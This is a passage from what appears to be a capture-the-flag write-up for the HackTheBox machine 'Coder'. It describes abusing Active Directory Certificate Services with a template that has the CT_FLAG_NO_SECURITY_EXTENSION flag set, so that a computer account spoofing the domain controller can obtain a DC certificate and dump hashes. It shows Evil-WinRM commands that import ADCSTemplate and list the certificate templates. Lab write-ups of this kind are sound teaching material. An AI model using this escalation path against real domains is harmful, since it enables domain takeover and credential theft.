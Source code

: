 The post also says that while this vulnerability was patched in the May 2022
security updates, that:

> Certificate Templates with the new `CT_FLAG_NO_SECURITY_EXTENSION`
> (`0x80000`) flag set in the `msPKI-Enrollment-Flag` attribute will **not**
> embed the new `szOID_NTDS_CA_SECURITY_EXT` OID, and therefore, these
> templates are **still vulnerable** to this attack. It is unlikely that this
> flag is set, but you should be aware of the implications of turning this
> flag on.

#### Strategy

e.black has permissions over the PKI / ADCS. I’ll use this to import a new
ADCS template with the `CT_FLAG_NO_SECURITY_EXTENSION` flag set.

Then as s.blade, I’ll add a computer to the domain, specifically to the
BuildAgents OU, with the `dNSHostName` set to `DC01.coder.htb`.

Then I’ll enroll that new machine with the malicious template.

Then I’ll use `certipy` to get a certificate for the DC, using the password
associated with the newly added computer as auth.

With that certificate, I can dump hashes from the DC.

#### Create Template

I’ll use [ADCSTemplate](https://github.com/GoateePFE/ADCSTemplate) PowerShell
scripts to interact with templates on the host. I’ll upload it, and import it:

    
    
    *Evil-WinRM* PS C:\programdata> import-module .\ADCSTemplate.psm1
    

I’ll list the current templates:

    
    
    *Evil-WinRM* PS C:\programdata> get-adcstemplate | fl displayname
    
    displayname : User
    displayname : User Signature Only
    displayname : Smartcard User
    displayname : Authenticated Session
    displayname : Smartcard Logon
    displayname : Basic EFS
    displayname : Administrator
    displayname : EFS Recovery Agent
    displayname : Code Signing
    displayname : Trust List Signing
    displayname : Enrollment Agent
    displayname : Exchange Enrollment Agent (Offline request)
    displayname : Enrollment Agent (Computer)
    displayname : Computer
    displayname : Domain Controller
    displayname : Web Server
    displayname : Root Certification Authority
    displayname : Subordinate Certification Authority
    displayname : IPSec
    displayname : IPSec (Offline request)
    displayname : Router (Offline request)
    displayname : CEP Encryption
    displayname : Exchange User
    displayname : Exchange Signature Only
    displayname : Cross Certification Authority
    displayname : CA Exchange
    displayname : Key Recovery Agent
    displayname : Domain Controller Authentication
    displayname : Directory Email Replication
    displayname : Workstation Authentication